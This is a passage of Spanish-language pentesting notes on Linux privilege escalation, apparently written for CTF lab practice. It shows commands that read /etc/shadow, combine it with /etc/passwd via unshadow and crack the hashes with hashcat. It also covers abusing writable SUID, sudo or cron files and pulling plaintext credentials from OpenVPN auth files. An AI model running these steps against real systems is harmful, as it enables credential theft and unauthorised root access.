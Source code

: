 normalmente el archivo `/etc/shadow` no es posible leer ni escribir, ya se menciono como abusar de permisos de escritura, pero en caso de tener permisos de lectura podemos hacer lo siguiente:

como se tiene permisos de lectura en `/etc/passwd` normalmente, debemos sacar una copia de el contenido de cada uno nuestra maquina atacante:

```bash
cat /etc/passwd
cat etc/shadow
```

pasamos a Kali su contenido y usamos la herramienta `unshadow` para realizar un ataque de fuerza bruta:

```bash
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
```

ahora con hascat realizamos el ataque:

```bash
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

### ABUSO DE PERMISOS DE ARCHIVO

En caso de ser el propietario de un archivo o quizas por una mala configuracion, podemos asignar permisos de escritura a un archivo potencial para la escalada de privilegios, esto puede ser interesante cuando:

- en un archivo SUID
- en un archivo de los casos anteriores
- en un archivo del `sudo -l`
- en una tarea cron

de ser asi podemos editar el archivo para intentar escalar privilegios.

**PRACTICAR**

- cyborg - THM

## CONTRASEÑAS ALMACENAS

**OPEN VPN**

En archivos **.ovpn**  puede estar una directiva `auth-user-pass` que apunte a un archivo con las credenciales en texto plano:

```bash
cat example.ovpn

#OUTPUT

...
auth-user-pass /etc/openvpn/auth.txt
...
```

al revisar ese archivo podemos ver credenciales de acceso.
